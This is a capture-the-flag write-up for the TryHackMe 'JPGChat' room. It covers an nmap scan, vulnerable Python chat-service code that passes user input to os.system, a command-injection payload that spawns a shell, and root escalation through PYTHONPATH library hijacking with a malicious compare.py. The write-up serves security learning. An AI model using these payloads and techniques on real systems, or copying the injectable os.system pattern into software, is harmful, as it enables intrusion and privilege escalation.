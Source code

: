 ![JPGChat Cover Image](JPGChat.png)
# JPGChat Writeup

## NMAP Scan
```
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-29 20:26 GMT
Nmap scan report for 10.10.63.208
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fecc3e203fa2f8096f2ca3affa329c94 (RSA)
|   256 e8180cadd0635f9dbdb784b8ab7ed197 (ECDSA)
|_  256 821d6bab2d04d50b7a9beef464b57f64 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```
From the NMAP scan I can see that there is some sort of interactive service running on port 3000. It looks like it could be a messaging service. It also says that the source code of the service can be found on the admin's github. A little bit of searching around and I found it.

Theres a snippet in the code that is vulnerable to command injection.

The code:
```
def report_form():
	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```

Looking again at what was returned from the NMAP scan, it gives the user an option to report someone to admins by sending a message saying **[REPORT]** which will call the function **report_form()**. It then prompts the user to enter their name and their report that the admins will read.

It works by directly concatenating the user's input into a system command to echo data into a file, which is run using `os.system()`.

We can exploit this by entering either our name or report information as this command: `;/bin/bash;echo`. This will spawn a shell for us to run any system commands we want.

## Foothold
To interact with the service, I used the netcat command: `nc <ip> 3000`

I then send the message **[REPORT]** and enter a random name, and then the command mentioned above as the report. A shell is spawned and I stabilize the shell using `python -c 'import pty;pty.spawn("/bin/bash")'`.

From the command `whoami`, I can see that I have a shell as the user **wes**. Changing directory into **/home/wes**, I see that there is a file `user.txt` which is the first flag needed for the CTF.

## Privilege Escalation (root)
Running the command `sudo -l` shows me that the user **wes** has access to the **PYTHONPATH** environment variable and can run `/usr/bin/python3 /opt/development/test_module.py` as root with no password.

Reading the source code of `/opt/development/test_module.py` I see that it uses a module named **compare**. As we have access to the **PYTHONPATH** environment variable, we can exploit this using _Python Library Hijacking_. We can create our own **compare.py** file in our home directory, modify the **PYTHONPATH** variable, and this will make the **test_module.py** file import _our_ module and run any code that we write.

### Exploitation
- Create a file named **compare.py** in `/home/wes` containing the code
```
import subprocess
subprocess.call(['/bin/sh', '-i'])
```
This will spawn a shell when the module is imported, and as the command is run using sudo permissions, the module will also be run using sudo permissions, in turn spawning a root shell.

- Then run the command: `export PYTHONPATH=/home/wes` to set the **PYTHONPATH** environment variable to our home directory
- Finally, run the command: `sudo /usr/bin/python3 /opt/development/test_module.py`

SUCCESS! This will import _our_ **compare.py** module, run the code we wrote, and now we have a root shell!

Change directory to `/root` and read the final flag needed for the CTF.

TryHackMe JPGChat: [https://tryhackme.com/room/jpgchat](https://tryhackme.com/room/jpgchat)
